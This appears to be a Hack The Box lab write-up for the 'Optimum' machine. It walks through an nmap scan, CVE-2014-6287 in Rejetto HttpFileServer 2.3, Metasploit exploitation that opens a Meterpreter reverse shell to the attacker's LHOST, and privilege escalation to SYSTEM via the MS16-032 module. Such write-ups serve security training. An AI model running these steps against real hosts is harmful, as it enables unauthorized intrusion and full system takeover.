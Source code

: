 ```yaml
---
layout: post
title: Optimum HTB 
image: assets/Optimum/Optimum.png
date: 10-07-2025
categories: [Write ups]
tags: [HttpFileServer, Metasploit]
excerpt: This walkthrough details the exploitation of a HttpFileServer vulnerability.
---
```


## Objective

Get root by attacking the HttpFileServer version using Metasploit.

---

## Nmap.

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn 10.10.10.8 -vvv -sCV

Discovered open port 80/tcp on 10.10.10.8

PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 HttpFileServer httpd 2.3
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: HFS /
|_http-server-header: HFS 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

In the nmap scan we see that only port 80 is open, that it is a Windows machine due to the TTL shown, and that the service running on that port is HttpFileServer version httpd 2.3.

---
## Investigation.

With this information, the first thing we do is search online for possible vulnerabilities of that version, and we find this:

### Critical Vulnerability in Rejetto HTTP File Server (CVE-2014-6287)

**Type:** Code Injection (Improper Control of Code Generation, CWE-94)

**Date:** Published in 2014, last updated in 2025

**Description:** A flaw in the `findMacroMarker` function allows remote attackers to execute arbitrary code by sending a specific %00 sequence in a search action.

**Impact:** Very high, with a CVSS v3.x score of 9.8 (critical) and CVSS v2.0 score of 10.0 (high).

---
## Explotation

```bash
msfconsole # Open the Metasploit console
search HttpFileServer # Search for any available exploit modules; only one option appears:
" 0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution"
use 0 # Select the exploit to use
options # Check the required options to run the exploit
# Requires RHOST (target IP) and LHOST (our IP)
set RHOSTS 10.10.10.8
set LHOST your_ip
run # Launch the exploit
# This returns a Meterpreter shell on the victim machine. Next, how to get the first flag.
```

## User Flag.
```bash
With the Meterpreter session obtained: 
shell # Open a standard shell (for convenience)
whoami # It shows we are user 'kostas'
dir # List files in the current directory and find the first flag
type user.txt
```
---

## Privilege escalation.

```bash
# To see how to escalate privileges, background the session by typing:
background
use /post/multi/recon/local_exploit_suggester # Use this module to find possible privilege escalation exploits
set SESSION 1 # Set the session to the one we just backgrounded
run
# The module returns potential vulnerabilities:
 1   exploit/windows/local/bypassuac_comhijack                      Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/bypassuac_sluihijack                     Yes                      The target appears to be vulnerable.
 4   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The service is running, but could not be validated. Vulnerable Windows 8.1/Windows Server 2012 R2 build detected!
 5   exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
 6   exploit/windows/local/tokenmagic                               Yes        
# We will use option 5
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
set SESSION 1
options # It requires LHOST
set LHOST your_ip
run
# We get a new shell.
getuid # We check the user; it should be NT AUTHORITY\SYSTEM, which means privilege escalation succeeded.
```

## ROOT FLAG
```bash
cd /
cd Administrator/Desktop #There is the flag
```